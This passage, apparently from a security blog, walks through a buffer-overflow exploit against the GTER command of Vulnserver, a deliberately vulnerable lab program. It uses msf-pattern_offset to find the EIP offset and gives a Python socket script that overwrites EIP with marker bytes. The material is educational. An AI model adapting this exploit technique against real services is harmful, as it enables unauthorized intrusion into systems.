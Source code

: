 
And we run the exploit again:

<div class="imgblock">

![Exploit: take 2](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331145/blog/vulnserver-gter/offset1_uk8di2.webp)

</div>

This time, `EIP` has the value `41396541`. Let’s check the offset on our
cyclic pattern:

**Running pattern\_offset.rb.**

``` console
# This will only work on Kali Linux
$ msf-pattern_offset -q 41396541
[*] Exact match at offset 147
```

Great, that tells us that the `EIP` gets overwritten starting on the
**147** byte of our buffer. Update the exploit to check the offset:

**exploit.py.**

``` python
import socket

HOST = '192.168.0.29'
PORT = 9999

PAYLOAD = (
    b'GTER /.:/' +
    b'A' * 147 +
    b'B' * 4 +
    b'C' * (400 - 147 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    fd.sendall(PAYLOAD)
```

Now run the exploit. If `EIP` gets the value `42424242`, which are the
four bytes of our `B` buffer, we got it right:

<div class="imgblock">

![Correct offset to EIP](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331145/blog/vulnserver-gter/offset2_bv13e7.webp)

</div>

Whoohooo\! Now we can start exploiting this.

## Exploiting

If we check the state of the application after the crash, we can see
that we can jump to `ESP` to gain control of the execution flow.

